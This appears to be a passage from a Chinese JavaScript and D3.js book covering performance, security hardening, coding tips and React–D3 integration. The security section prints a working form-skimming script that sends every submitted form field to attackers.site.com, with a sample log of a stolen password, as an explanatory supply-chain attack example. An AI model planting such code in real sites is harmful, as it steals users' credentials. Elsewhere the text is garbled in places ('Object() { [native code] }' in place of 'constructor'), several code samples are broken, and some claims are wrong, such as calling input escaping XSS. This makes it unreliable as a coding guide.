在 JavaScript 原生环境之外，宿主浏览器与对象（DOM）的交互会产生相当大的性能延迟和不可预测性。这是因为浏览器每次都必须刷新，而通过限制 DOM 访问可以防止这种情况。可以通过多种方式实现。例如，您可以保存对浏览器对象的引用或减少 DOM 遍历次数。

#### 对象缓存提高效率

这可以通过两种方式实现。第一种选择是 HTTP 协议缓存。第二种选择是使用 JavaScript Cache API，这可以通过安装 service workers 来完成。脚本通常用于访问特定对象。通过使用一个关于该对象的变量或将重复访问的对象保存在用户定义变量中，您可以获得显著的性能提升。

#### 避免占用过多内存

JavaScript 开发人员必须具备的最关键能力之一就是管理内存使用的能力。这是因为在设备被用于运行您的软件时，确定其 RAM 需求是非常具有挑战性的。如果代码要求浏览器分配新的内存储备，浏览器将调用垃圾回收器，并且 JavaScript 将被终止。如果这种情况频繁发生，页面将会变慢。

#### 推迟不必要的 JavaScript 加载

用户理所当然地希望页面加载迅速。然而，并非所有功能在网站首次加载时都必须可用。如果用户执行各种操作（如点击和切换标签页），您可以推迟加载该功能，直到初始页面加载完成。

这种方法允许您避免加载和编译 JavaScript 代码，否则这些代码可能会阻止页面正确显示。在页面加载完成后，您可以开始加载用户开始交互后才需要的所有功能。Google 在 RAIL 模型中建议以 50 毫秒为块推迟加载。这消除了对用户交互的影响。

#### 消除内存泄漏

在发生内存泄漏的情况下，加载的页面将消耗越来越多的内存，直到耗尽设备的所有内存。这将对整体性能产生负面影响。这种故障在带有图像轮播的页面上可能会经常出现，对此您可能并不陌生。目前有许多工具可以确定您的网站是否在泄漏内存。Chrome Dev Tools 就是其中之一，其记录时间轴位于 performance 标签页中。内存泄漏通常是由页面中被删除的 DOM 片段引起的，因为它们被某些负责引用的变量持有，从而阻止了垃圾回收器将其移除。

### 强化与安全

如今，JavaScript 被广泛使用。它既运行在您的浏览器中，也运行在您的后端。此外，JavaScript 生态系统严重依赖第三方库。因此，为了确保 JavaScript 的安全，必须遵循最佳实践以减少攻击面。但我们如何确保 JavaScript 应用程序是安全的？让我们来看看。

#### JavaScript 的危机

##### 调试与篡改

根据 OWASP 应用程序安全标准，对于处理敏感数据或执行关键功能的 App 来说，逆向工程和篡改应用程序源代码是非常危险的。对于基于 JavaScript 的 App 尤其如此，这些问题可以通过各种攻击被利用，包括知识产权盗窃、自动化滥用、盗版和数据外泄。

在 NIST 和 ISO 27001 等法规和标准中也提到了源代码暴露的风险，这些标准要求企业使用严格的控制机制，以避免潜在攻击带来的后果。

```html
<div id="hack-target"></div>
<button>Set Value</button>
<script>
  document.querySelector('button').
  addEventListener('click', setValue);
  function setValue() {
    var value = '5';
    document.getElementById('hack-target').
    innerText = value;
  }
</script>
```

这段代码创建了一个 HTML 目标并挂接了事件。当您点击按钮时，会触发回调函数。您可以使用客户端 JavaScript 在设置值的地方直接设置断点。一旦事件发生，就会到达这个断点。由 `var value = '5';` 设置的值可以在任何时候被更改。调试器会停止程序并允许用户操纵页面。此功能有助于调试，且浏览器在使用过程中不会发出任何警告。因为调试器可以停止执行，它也可以停止页面渲染。

##### 客户端攻击与数据外泄

我们还必须检查攻击者针对 JavaScript 源代码本身的安全风险，以及在浏览器中执行任意 JavaScript 的危险。我们看到网络供应链攻击（如 Magecart 攻击）在增加，它们充斥在网络中并利用客户端外泄数据。让我们看一个例子来具体说明。

假设您的 CDN 被攻破了（这种情况以前发生过），并且您在网站上使用的 jQuery 脚本被更新，添加了以下代码片段：

```javascript
!function(){document.querySelectorAll("form").forEach(function(a){a.addEventListener("submit",function(a){var b;if(!a.target)return null;b=new FormData(a.target);var d="";for(var e of b.entries())d=d+"&"+e[0] +"="+e[1];return(new Image).src="https://attackers.site.com/?"+d.substring(1),!0)})}();
```

您很有可能漏掉这次修改，而您的网站将传播恶意软件。

```javascript
! function() {
  document.querySelectorAll("form").forEach(function(a) {
    a.addEventListener("submit", function(a) {
      var b;
      if (!a.target) return null;
      b = new FormData(a.target);
      var d = "";
      for (var e of b.entries()) d = d + "&" + e[0] + "=" + e[1];
      return (new Image).src = "https://attackers.site.com/?" + d.substring(1), !0
    })
  })
}();
```

其背后的逻辑如下：页面上的每个表单都添加了一个提交事件处理器，以便在触发时收集表单数据并将其重建为 Query String 格式，然后将其附加到新的 Image 资源源 URL 中。

简单来说，每次提交表单时，相同的数据都会被发送到远程服务器（attackers.site.com）以请求一个图像资源。

attackers.site.com 的所有者随后会在其访问日志中收到以下信息：

```text
79.251.209.237 - - [13/Mar/2017:15:26:14 +0100] "GET /?email=john.doe@somehost.com&pass=k284D5B178Ho7QA HTTP/1.1" 200 4 "https://www.your-website.com/signin" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
```

结果是，即使您的服务器没有被攻破，您的网站也会在不知不觉中将用户数据泄露到攻击者手中。这就是为什么网络供应链黑客攻击在今天如此严重的原因，因为像 GDPR/CCPA/HIPAA 这样的法律对数据泄露处以巨额罚款。

### 保持 JavaScript 安全的步骤

#### JavaScript 的完整性检查

作为一名前端开发人员，您可能使用 `<script>` 标签来导入第三方库。您考虑过安全影响吗？如果第三方资源被篡改会发生什么？是的，当您在网站上提供外部资源时，这些事情可能会发生。因此，您的网站可能会受到黑客的攻击。

作为一种预防措施，您可以在脚本中包含以下代码：integrity（也称为子资源完整性 – SRI）。

```html
<script
    src="https://cdnjs.cloudflare.com/ajax/libs/web3/1.6.1/web3.min.js"
    integrity="sha512-5erpERW8MxcHDF7Xea9eBQPiRtxbse70pFcaHJuOhdEBQeAxGQjUwgJbuBDWve+xP/u5IoJbKjyJk50qCnMD7A=="
    crossorigin="anonymous"
    referrerpolicy="no-referrer"></script>
```

出于安全目的，请包含带有 `integrity` 属性的脚本标签。


如果源文件被篡改，完整性属性（integrity attribute）允许浏览器检查获取的脚本，以确保代码永远不会被加载。

#### 定期检测 NPM 漏洞

希望大家都知道可以使用 `npm audit` 命令来查找所有已安装依赖中的漏洞。它会生成漏洞报告并提供解决方案。但是你多久执行一次呢？

除非我们将其实现自动化，否则这些漏洞会不断累积，导致无法修补。请记住，其中一些漏洞可能是关键的，可能导致严重的安全漏洞。

你可以通过在 CI 中为每个拉取请求运行 NPM 来发现漏洞。这样，你可以避免任何漏洞被遗漏。

```
rm -rf node_modules
rm package-lock.json yarn.lock
npm cache clear --force
npm install
```

#### 启用次要版本和补丁版本更新

你有没有在 NPM 包版本号旁边看到过符号？对于次要版本和补丁版本，这些符号表示自动版本提升（取决于符号）。

从技术角度来说，次要版本和补丁版本是向后兼容的，这降低了在应用中引入缺陷的可能性。

由于大多数第三方库以补丁版本提升的形式提供热修复，因此允许自动补丁更新来缓解安全问题。

#### 建立验证以避免注入

作为一般准则，我们永远不应该仅仅依赖客户端验证，因为攻击者可以随时修改它们。然而，通过为每个输入建立验证，可以避免一些 JavaScript 注入。

如果你在评论区域输入带有引号的内容——例如 `<script>`、`</script>`，这些引号会被替换为双引号——`&lt;script&gt;`、`&lt;/script&gt;`。你输入的 JavaScript 代码将不会被执行。这被称为跨站脚本攻击（**XSS**）。

还有一些其他常见的 JavaScript 注入方法：

- 使用开发者控制台输入或编辑 JavaScript。
- 在地址栏中输入 "javascript: SCRIPT"。

#### 始终保持严格模式

严格模式可以阻止你编写危险的代码。此外，启用此选项非常简单。只需在 JavaScript 文件顶部放置以下代码即可。

启用严格模式时：

- 对于以前静默处理的各种错误会抛出异常。
- 修正使 JavaScript 引擎难以优化的错误。
- 禁止使用预计将在未来 ECMAScript 版本中定义的保留字。
- 执行"不安全"操作时抛出异常（例如访问全局对象）。

多年来，严格模式已被每个现代浏览器支持。如果浏览器不支持严格模式，该表达式将被忽略。

#### 清理你的代码

Linters 从静态角度分析你的代码库。它有助于建立质量并避免常见陷阱。Linting 有助于减少安全威胁，因为质量与安全息息相关。以下是一些最常用的 JavaScript 工具。

- JSLint
- JSHint
- ESLint

此外，像 Sonar Cloud 这样的工具可以检测代码异味和已知的安全漏洞。

#### 丑化和压缩你的代码

攻击者经常会试图 decipher 你的代码以获取访问权限。因此，在生产构建中包含可读的源代码会扩大攻击面。

丑化和压缩 JavaScript 代码是常见的做法，以使其更难利用代码中的弱点。

如果你想对用户/客户端隐藏代码，请将代码保留在服务器端，不要将其发送到浏览器。

### 通用技巧

#### 在顶部声明和初始化变量

延迟声明是代码可读性的最大敌人。就像在开始项目之前最好把所有设备拿出来一样，在进入函数的细节之前声明所有变量更容易。这样，如果我们以后需要更改任何名称或值，可以快速访问。说到变量，最好在创建时就初始化它们，这样你和你的团队可以确保没有变量处于未定义状态。

```
<script>
var x = 7;
</script>
```

#### 创建特定的模块化函数

为了提高效率和可读性，不应该让单个函数执行所有操作。相反，审视函数应该完成的单一任务，并编写它以仅完成该任务。函数应该根据该任务命名。

这使代码更容易让他人理解。如果你只处理一个任务，函数会更简单、更简洁。它还使你和你的团队能够在将来需要时将这个函数移到另一个软件中。在下面的第二个版本中，即使只有提供的变量名和函数名，我们也能更好地理解在哪里找到各种任务。

```
function table (columns, rows, item){
  // 创建表格并在其中搜索传入的项目
}
```

```
// 相比之下
function createTable (columns, rows){
  // 创建表格
}
function searchTable (table.length, item) {
  // 在表格中搜索传入的项目
}
```

#### 识别并消除重复代码

在你的代码中寻找具有相同重复代码行的情况，类似于我们之前的例子。

在这种情况下，你应该将重复的代码放入一个函数中，并在之前使用它的所有地方调用它。这避免了视觉混乱，并通过让团队专注于单一函数而不是多个使用部分来方便后续调试。

```
<script>
var x = 5;
var y = 6;
var x = x*2
var y = y*2
</script>
```

```
<script>
var x = 5;
var y = 6;

function double (value){
  return value*2;
}
double (x);
double(y);
</script>
```

#### 经常为你的代码添加注释

注释是总结代码片段意图的好方法，可以为你的开发伙伴节省自己理解的时间。

这也让他们能够捕捉到代码未能完成其注释任务时的潜在错误。一般来说，最好每个函数留一条注释。

如果你不确定是否该留注释，那就留吧！如果显得太杂乱，以后总是可以删除的。

```
// 声明并初始化变量 y
<script>
var y = 10;
</script>
```

#### 避免过度使用递归

递归函数不应嵌套得太深。虽然递归能够解决广泛的问题，但嵌套 notoriously 难以一眼理解。

为了尽量减少混淆，请留意那些可以从嵌套状态中提取出来而不会产生高运行时成本的递归函数，并在可能的情况下这样做。如果你有三层或更多层嵌套函数，你的开发同事很可能会难以理解。

```
function1 (a,b){
  function2{
    function3{
      // 这太难跟踪了，而且可能有其他解决方式
    }
  }
}
</script>
```

#### 高效使用 DOM 操作

虽然访问 DOM 对于充分发挥软件作用是必要的，但频繁访问会使屏幕杂乱并降低速度。

相反，只访问一次并将其保存在变量中以供后续使用。你现在可以访问该变量，而不是直接访问 DOM。这种方法更具视觉吸引力和效率。

```
function accountInfo(){
  var email = $("#accounts").find(".email").val();
  var accountNumber = $("#accounts").find(".accountNumber").val();
}
```

```
// 内容缓存到变量 "accounts" 中

function accountInfo() { 
  var $accounts = $("#accounts");
  var name = $accounts.find(".email").val();
  var age = $accounts.find(".accountNumber").val();
}
```

#### 尽可能避免使用全局变量

JavaScript 中的变量有两个作用域：全局和局部。这些作用域决定了这些变量在代码中的定义或访问位置。全局变量在函数外部定义，可以在程序中的任何地方定义。局部变量仅在定义它们的函数作用域内可见。

如果局部变量和全局变量具有相同的名称，JavaScript 将优先使用局部变量并忽略全局变量。全局变量仍应避免，因为它们有可能覆盖 window 变量并导致问题。

```
<html>
  <body>
    <script>
      var myVar = "my global variable"; // 该变量声明为全局变量
      function localVariable( ) {
        var myVar = "my local variable"; // 这是局部声明的变量
      }
    </script>
  </body>
</html>
```

#### 使用简写表示法（对象字面量）

在 JavaScript 中创建对象或数组时，简写表示法可以节省行空间。这是通过在声明期间设置对象或数组的属性或单元格来实现的。

这消除了需要在每行上弄清楚你在设置哪个对象或数组的麻烦，使该部分更容易理解。虽然这可能是一个小改动，但随着对象和数组变得更加复杂，它将为你的团队节省很多眼睛疲劳。


详细写法对象：

```javascript
var computer = new Object();
    computer.caseColor = 'black';
    computer.brand = 'Dell';
    computer.value = 1200;
    computer.onSale = true;
```

简写写法对象：

```javascript
var computer = {
    caseColor: 'black',
    brand: 'Dell',
    value: 1200,
    onSale: true,
};
```

简写数组：

```javascript
var computerBrands = [
'Dell',
'Apple',
'Lenovo',
'HP',
'Toshiba',
'Sony'
];
```

#### 为了捕获静默错误，请使用严格模式

与 C++ 和 Java 等硬编码语言相比，JavaScript 是一门相当宽容的语言。虽然这种宽容有助于让代码在不产生问题的情况下运行，但它也可能导致一些不被察觉的静默故障（silent faults）。如果 JavaScript 可以通过多种方式解析静默错误，这可能会导致行为不一致。

切换到严格模式（Strict Mode）可以解决这个问题。此设置有两项必要的改进：

- 原本可以通过编译的静默错误现在会抛出错误，允许你在代码交付给团队之前对其进行微调。
- 修复了那些阻碍 JavaScript 优化代码的错误。
- 严格模式的 JavaScript 程序通常比“宽松（sloppy）”模式的程序运行得更快。

在脚本部分的头部（如果你希望整个部分都处于严格模式）或相关函数之前添加 “use strict” 行，以启用严格模式（如果仅某些部分需要严格模式）。

#### 设置默认选项

在创建对象时，你可以为某些或所有对象属性定义默认设置。这可以确保没有属性值处于 `undefined` 状态。它还能表明该属性预期接收什么样的资料类型。通过不为特定属性指定默认值，你还可以向团队传达某些值对于对象正常运行并非必选项。

```javascript
function logProperty({
    address = '111 11th Street, 11111',
    unit,   //optional
    landlord = 'Sara',
    tenant = 'Raj',
    rent = 500,
})
```

虽然并非所有属性都会有单元号（unit number），但所有属性都将拥有其他四个属性，且全部填充了所需的数据类型。为了演示这一点，我们将 unit 留空。

#### 混合字符串请使用模板字符串

字符串难以组合，尤其是包含变量时。你可以使用模板字符串（Template Literals，由反引号标识）来简化此过程，它同时支持字符串和变量。

```javascript
function greet(name) {
    return `Hi, ${name}`; //template literal
}
console.log(greet('Leo'));
```

我们可以利用模板字符串，将字符串 “Hi” 与传递的变量 `name` 的值相结合，从而根据提供给我们的姓名向任何用户打印问候语。结果，这段代码将打印：Hi, Leo。

#### 使用 Includes 解决存在性测试

一个常见的困难是确定某个值是否存在于数组中。幸运的是，JavaScript 提供了 `includes()`，这是一个特定的数组方法，如果数组包含所搜索的项，则返回一个布尔值。该方法提供了一个高效且易读的答案，而无需手动搜索数组。

```javascript
const sections = ['contact', 'shipping'];

function displayShipping(sections) {
    return sections.includes('shipping');
}
console.log(displayShipping(sections));
```

在 Pragmatic Programmers 课程中，你还将学习如何利用 `indexOf()` 方法来检查值并获取其索引！

#### 具有假值（False Values）的条件语句应被简化

JavaScript 中许多不同类型的变量具有等同于 `false` 的值。这包括：

- ''
- ""
- 布尔值 `false`
- `null`
- `0`
- `NaN` (not a number)

JavaScript 中的等同运算符 `==` 意味着两个对象具有相同的值，但类型可能不同。而“全等”则表示两个项具有相同的类型和值。但这有什么帮助呢？

与其定义单独的变量来保存布尔值，你可以利用上述默认值，在没有任何内容覆盖它们时报告为 `false`。考虑以下场景：你需要确定一名特定员工是否接受了设备培训（equipment training）。这台机器只需要最基础的培训，培训级别并不重要。

因此，我们的 `if` 语句检查 `equipmentTraining` 是否仍具有“假值”。如果是，则执行 `if` 语句，并返回员工未获得授权。如果 `equipmentTraining` 包含一个与默认值不同的字符串，它将是真值（truthy），且 `if` 语句将不会被执行。

```javascript
const employee = {
    name: 'Eric',
    equipmentTraining: '',
}

if (!employee.equipmentTraining) {
    console.log('Not authorized to operate machinery');
}
```

### 继承与方法共享

继承是类之间共享属性或函数的一种手段。在 `FlashCoupon` 中，这通过允许函数 `Object() { [native code] }` 使用 `super` 标签访问 `Coupon` 中的父函数 `Object() { [native code] }` 来实现。通过仅在（父类中）指定一次方法，你可以提高代码的可读性。因为继承类可以为特定任务进行专业化，所以你的代码变得更具模块化。

正如顶部的代码框所示，它创建了一个父类 `Coupon`，其属性和方法与 `FlashCoupon` 共享，而 `FlashCoupon` 在最后一行使用了 `getExpirationMessage` 方法。

```javascript
class Coupon {
    constructor(price, expiration) {
        this.price = price;
        this.expiration = expiration || 'Two Weeks';
    }
    getExpirationMessage() {
        return `This offer expires in ${this.expiration}`;
    }
}
export default Coupon;
import Coupon from './extend';
```

```javascript
class FlashCoupon extends Coupon {
    constructor(price, expiration) {
        super(price);
        this.expiration = expiration || 'two hours';
    }
}
```

```javascript
const flash = new FlashCoupon(10);
console.log(flash.getExpirationMessage());
```

### 使用数组技巧创建更短的循环

数组优化的复杂性将是我们最后一项建议的主题。数组经常使用循环来创建和填充。然而，由于需要的行数过多，它们可能难以阅读。

相反，数组方法可以用极少的行数实现与循环类似的效果。考虑以下循环。

```javascript
const prices = ['1.0', 'negotiable', '2.15'];
```

```javascript
const formattedPrices = [];
for (let i = 0; i < prices.length; i++) {
    const price = parseFloat(prices[i]);
    if (price) {
        formattedPrices.push(price);
    }
}
```

```javascript
console.log(formattedPrices);
```

我们可以通过在下面三行中使用 `map` 方法，达到与上述代码类似的效果。该技术创建了一个等大数组，且仅包含 `price` 属性。然后 `parseFloat` 函数为该价格返回浮点值。

# 总结

在本章中，我们学习了如何优化代码以使程序有效地运行，以及关于安全性的步骤和一些编写代码的通用技巧。

# 总结

## 本章内容

- React 结合 D3.js
- Angular 结合 D3.js
- 全栈开发
- D3 和 d3fc

在上一章中，我们在使用 D3.js 时学习了代码优化和错误处理。本章将为您总结使用 D3.js 进行数据可视化的职业前景。它还将涵盖各种框架和工具的使用，当这些工具与 D3.js 结合时，可以帮助应用程序进行变革。

### D3.js 的职业前景

数据可视化是一项具有回报的职业，但由于它不是一个独立领域，因此直接从数据创建报告的机会并不多。它是一项非常有价值的能力，通常被应用于各种与数据相关的行业。为了给组织增加真正的价值，我们需要具备前端开发或数据分析的能力。

数据可视化的重要性怎么强调都不为过。它能让你将之前原始且枯燥的数据变得富有表现力且信息丰富。可视化如果做得正确，能帮助观众让复杂的事物显得更易触达且易于理解。你可以用更高效的方式沟通相同的信息。


通过在图表、地图或透视表中显示数据来有效地传递信息。这一次，我们建议你致力于提高数据可视化技能。我们认为这是职场和日常生活中一项至关重要的能力，它能教会你如何高效且创新地表达你的研究发现。

### 数据可视化有未来吗？

大数据时代已经到来。随着越来越多的企业寻求挖掘数据的潜力，可视化正成为一个越来越重要的工具。它使数据科学家和分析师能够解读每天产生的数十亿行数据。专业人士可以通过将大量数据转换为易于理解的视觉表示来讲述故事。数据可视化需要掌握各种工具和技术，包括 Python、Tableau、D3.js 和 SQL。你还必须熟悉数学和统计学课题，如线性代数、微积分、概率论、回归分析等。数据领域的任何职业（不仅仅是数据可视化）都需要编程技能。自从大数据成为主流以来，Python 已迅速成为所有数据相关工作的标准语言。因此，有志于成为数据可视化专业人士的候选人应优先学习 Python。

除 Python 之外，R 也是一种流行的数据可视化编程语言。D3.js 是一个 JavaScript 工具包，它利用 HTML、CSS 和 SVG 在 Web 浏览器中创建动态的、交互式的数据可视化。数据可视化需要极强的编码能力；因此，该行业的专家必须具备良好的编程技巧。

在 2012 年至 2015 年间，D3 是在 Web 上创建定制化交互式图形的唯一手段。它在新闻业中占据主导地位，正因为这种霸主地位，在数字新闻扩张的时期，D3 在数据可视化领域拥有如此庞大的追随者。而现在，我们有了两个新的工具包，降低了 D3 的重要性。

- 像 Flourish 和 Datawrapper 这样的无代码工具使得创建各种交互式图表变得简单。虽然它们没有代码那样的高度自定义能力，但仍能满足新闻编辑室大部分的基础图表需求。
- 像 React、Vue 和 Svelte 这样的 JavaScript 框架使得控制和渲染 DOM 变得简单，从而取代了 D3 的一个核心功能。

信息可视化并非易事，但通过专注和决心，你可以成为一名数据可视化专家。另一方面，数据可视化通常是数据分析和数据科学等其他数据任务的子集。专门从事数据可视化的职位并不多。

要实现数据可视化，你必须具备卓越的技术能力，并熟悉计算机语言、库和软件包。数据可视化需要扎实的数学和统计学基础。最后，求职者必须学会与数据库管理系统进行沟通和协作。

### D3.js 与其他框架及工具的结合使用

众所周知，单一的可视化工具无法完成所有工作并最有效地呈现数据。因此，有几种框架和工具可以增强 D3 的效能，以下是一些在与 D3 结合时能为数据提供不同视角的框架。

我们首先可以利用的框架是 React。

自 2011 年诞生以来，D3.js 一直是 Web 上创建复杂数据可视化的事实标准。而 React 迅速成为了构建组件化用户界面的首选库。React 和 D3 都是极好的工具，但它们的目标有时会发生冲突。两者以不同的方式控制用户界面组件。

我们如何才能在最大化它们对项目益处的同时，说服它们协作？

在本节中，我们将探讨如何构建利用 D3 强大图表能力的 React 项目。我们将介绍几种策略，以及如何为你的主项目和侧边项目选择最合适的库。React 和 D3 都是极佳的工具，但目标偶尔会冲突。它们在控制项目用户界面元素时是否采用了不同的方法？

## DOM 与 D3

在 D3.js 中，D3 代表“数据驱动文档”（data-driven documents）。D3.js 是一个底层软件包，为你提供创建交互式可视化的工具。它构建了一套前端工具集，拥有广泛的 API，并利用 SVG、HTML、canvas 和 CSS 等 Web 标准，对可视化的外观和行为进行近乎无限的控制。它还包含了一些用于计算复杂 SVG 路径的数学工具。

### 流程是怎样的？

简而言之，D3.js 加载数据并将其连接到 DOM。然后将数据绑定到 DOM 元素并对其进行修改，根据需要在不同状态之间切换。

由于 D3.js 的选择器（selections）能帮助我们处理 SVG 的复杂性，因此它们与 jQuery 对象类似。这与 jQuery 处理 HTML DOM 组件的方式相似。这两个库都使用 DOM 存储数据，并采用类似的链式 API。

### 数据连接（Data Joins）

正如 Mike Bostock 在其文章《Thinking with Joins》中所讨论的，数据连接是 D3 通过选择器将数据绑定到 DOM 元素的技巧。

数据连接允许我们将提供的数据与现有元素匹配，添加缺失项并删除不再需要的部分。它们采用 D3.js 选择器，当与数据配对时，将选定项分为三组：必须创建的（enter 组）、必须修改的（update 组）和必须删除的（exit 组）。

在实践中，数据连接由一个包含两个数组的 JavaScript 对象表示。在当前版本的 D3.js 中，我们可以调用选择器的 `entry` 和 `exit` 方法来启动对 enter 和 exit 组的操作。同时，我们可以直接对 update 组进行操作。

> 根据 Bostock 的说法：“你可以查看实时数据，允许交互式探索，并在数据集之间平滑过渡。” 正如我们在接下来的章节中将看到的，它们实际上是一种 diff 方法，类似于 React 处理子元素渲染的方式。

## D3 库

由于 D3.js 过于底层，D3 社区尚未开发出一种从 D3 代码生成组件的标准方式，而这是一个常见需求。我们可以说，封装模式的数量几乎与基于 D3 的库一样多，但我们将根据其 API 将其分为四类：

- 面向对象（Object-oriented）
- 声明式（Declarative）
- 函数式（Functional）
- 链式（Chained，或类似 D3）

我们将列出一些使用 D3.js 版本 4 且具有高测试覆盖率的当前库。它们在 API 类型和抽象粒度方面有所不同。

### Plottable

Plottable 是一个流行的面向对象图表包，其粒度较低；因此，为了构建图表，我们必须手动设置轴、比例尺和绘图区域。

### Billboard

Billboard 是知名 C3.js 库的一个分支，已更新以支持 D3.js 版本 4，旨在保留这个经典库的传承。它是使用 ECMAScript 6 和 Webpack 等现代工具构建的。它拥有一个基于提供给图表的配置对象的声明式 API。

### Vega

Vega 在声明式配置上更进一步，将 JavaScript 对象转换为纯 JSON 文件。它试图根据 Leland Wilkinson 的 *《图形语法》（The Grammar of Graphics）* 创建一种可视化语法。该章节将数据可视化的构建部分形式化，也是 D3.js 的灵感来源。

### D3FC

D3FC 使用 D3.js 和专有构建块，帮助你在 SVG 和 canvas 中创建动态交互图表。它具有函数式的、低粒度的接口以及大量的 D3.js 代码，因此需要一段时间才能习惯。

### Britecharts

这是一个 Eventbrite 库，我是其核心开发人员。它使用了可重用图表 API（Reusable Chart API），这是一种由 Mike Bostock 在其博文《Towards Reusable Charts》中开创并被 NVD3 等其他库采用的封装风格。Britecharts 是一个高级抽象，它在保持内部低复杂度的同时使构建图表变得简单，允许 D3 开发人员根据自己的需求自定义 Britecharts。开发一个复杂的


用户界面以及众多易于理解的示例都花费了大量的时间和精力。

## DOM 与 REACT

React 是一个 JavaScript 包，它允许我们通过组合组件来创建用户界面。这些组件跟踪自身的状态，并通过传入属性来高效地重新渲染自身，从而提升应用的性能。

### 具体流程是怎样的？

React 的重新渲染优化由虚拟 DOM 实现，虚拟 DOM 代表了 DOM 的当前状态。当条件发生变化时，该库会使用一种复杂的差异比对方法来确定应用的哪些部分需要重新渲染。这种差异比对算法被称为"协调算法"。

### 动态子组件

开发者在渲染包含元素列表的组件时，必须使用一个独特的 `key` 属性绑定到子组件上。当新数据——或在 React 中被称为状态——被传入组件时，其值有助于差异比对过程判断该项是否需要重新渲染。协调算法会检查基本值来判断某个项应该被添加还是移除。在了解了 D3.js 的数据绑定后，这听起来是不是很熟悉？

React 从 0.14 版本开始将渲染器分离到单独的模块中。我们可以使用相同的组件在多种媒介中进行渲染，例如原生应用、虚拟现实（React VR）以及 DOM。这种灵活性类似于 D3.js 代码可以在不同上下文中呈现，包括 SVG 和 canvas。

## D3.js 与 REACT

React 和 D3 的目标相同：以最高效的方式帮助我们处理 DOM 及其复杂性。它们还倾向于使用纯函数（对于给定输入始终产生相同输出且不产生副作用的代码）和无状态组件。

然而，由于这两个各有主见的库在 DOM 方面存在共同利益，当决定由谁来渲染和动画化用户界面元素时，它们会产生冲突。我们将探讨多种解决这一冲突的方法，并得出结论：没有简单的解决方案。不过，我们可以制定一条严格的规则：它们不应共享 DOM 控制权。

### 方法概述

我们可以在不同层面上整合 React 和 D3.js，更偏向 D3.js 一侧或 React 一侧。

让我们来看看四种主要方案。

### 在 REACT 中使用 D3.js

第一种策略是尽可能多地将 DOM 控制权交给 D3 代码。它使用一个 React 组件来渲染一个空的 SVG 元素作为数据可视化的根元素。然后使用 `componentDidUpdate` 生命周期方法和该根元素，利用我们在原生 JavaScript 场景中会使用的 D3.js 代码来创建图表。通过确保 `shouldComponentUpdate` 方法始终返回 `false`，我们可以阻止额外的组件变更。

```
class Line extends React.Component {
  static propTypes = {...}
  componentDidMount() {
    // D3 Code to create the chart
    // using this._rootNode as container
  }
  shouldComponentUpdate() {
    // Prevents component re-rendering
    return false;
  }
  _setRef(componentNode) {
    this._rootNode = componentNode;
  }
  render() {
    <div className="line-container" ref={this._setRef.bind(this)} />
  }
}
```

在评估这一策略时，我们会发现各种优缺点。其中一个优点是这是一种简单直接的方法，在大多数情况下都能奏效。当将旧代码转换为 React 或使用之前已经可用的 D3.js 图表时，这也是最合乎逻辑的解决方案。

另一方面，在 React 组件中混合使用 React 和 D3.js 代码可能被视为有些不妥，因为它会引入过多的依赖，使文件变得过大，不符合优秀代码的标准。此外，这种实现方式并不符合 React 的惯用风格。最后，我们无法在初始 HTML 中包含图表的渲染版本，因为 React 渲染服务器不会调用 `componentDidUpdate` 方法。

### REACT FAUX DOM

Oliver Caldwell 认为，FauxDOM React 是"一种使用现有 D3 技术但以 React 理念通过 React 进行渲染的方法"。它通过实现一个假的 DOM 来欺骗 D3.js，使其认为自己在与真实的 DOM 交互。在这种方法中，我们可以保留 React DOM 树，同时充分利用 D3.js。

```
import {withFauxDOM} from 'react-faux-dom'

class Line extends React.Component {

    static propTypes = {...}

    componentDidMount() {
        const faux = this.props.connectFauxDOM('div', 'chart');

        // D3 Code to create the chart
        // using faux as container
        d3.select(faux)
            .append('svg')
        {...}
    }

    render() {
        <div className="line-container">
            {this.props.chart}
        </div>
    }
}
export default withFauxDOM(Line);
```

Nicolas Henry 最先提出了这种方案，他使用基于类的 React 组件中的生命周期方法。它优雅地涵盖了 D3.js 图表的创建、更新和销毁，在 React 和 D3.js 代码之间划清了界限。

```
import D3Line from './D3Line'

class Line extends React.Component {

    static propTypes = {...}

    componentDidMount() {
        // D3 Code to create the chart
        this._chart = D3Line.create(
            this._rootNode,
            this.props.data,
            this.props.config
        );
    }

    componentDidUpdate() {
        // D3 Code to update the chart
        D3Line.update(
            this._rootNode,
            this.props.data,
            this.props.config,
            this._chart
        );
    }

    componentWillUnmount() {
        D3Line.destroy(this._rootNode);
    }
    setRef(componentNode) {
        this._rootNode = componentNode;
    }
    render() {
        <div className="line-container" ref={this._setRef.bind(this)} />
    }
}
```

以下是 D3Line 的样子：

```
const D3Line = {};

D3Line.create = (el, data, configuration) => {
    // D3 Code to create the chart
};
D3Line.update = (el, data, configuration, chart) => {
    // D3 Code to update the chart
};
D3Line.destroy = () => {
    // Cleaning code here
};
export default D3Line;
```

这个函数生成一个轻量级的 React 组件，通过一个最小化的 API（new、update 和 remove）与基于 D3.js 的图表实例进行交互，将我们想要监听的任何回调方法向下传递。这种方法通过将图表的实现细节隐藏在一层抽象之后，促进了清晰的关注点分离。任何图表都可以被封装，且生成的接口简单直观。另一个优点是它易于与任何现有的 D3.js 代码集成，并允许我们使用 D3.js 优秀的过渡动画。这种策略的主要缺点是不允许服务器端渲染。

### REACT 处理 DOM，D3 处理数学运算

在我们的方法中，我们尽可能少地使用 D3.js。这意味着执行 SVG 路径、比例尺、布局以及其他将用户数据转换为 React 可以创建的内容的计算。得益于许多与 DOM 无关的 D3.js 子模块，你可以纯粹将 D3.js 用于数学运算。这种方式对 React 最为友好，因为它将 DOM 的完全控制权交给了 Facebook 的库，而这正是它所擅长的。

```
class Line extends React.Component {

    static propTypes = {...}

    drawLine() {
```

```
let xScale = d3.scaleTime()
    .domain(d3.extent(this.props.data,
({date}) => date));
    .rangeRound([0, this.props.width]);

let yScale = d3.scaleLinear()
    .domain(d3.extent(this.props.data,
({value}) => value));
    .rangeRound([this.props.height, 0]);

let line = d3.line()
    .x((d) => xScale(d.date))
    .y((d) => yScale(d.value));

return (
    <path
        className="line"
        d={line(this.props.data)}
    />
);
}
render() {
    <svg
        className="line-container"
        width={this.props.width}
        height={this.props.height}
    >
        {this.drawLine()}
    </svg>
}
```

由于这种方法与 React 的理念一致，因此受到经验丰富的 React 开发者的青睐。一旦搭建完成，使用其代码构建图表也会感觉很好。另一个优点是可以实现服务器端渲染以及 React Native 或 React VR。

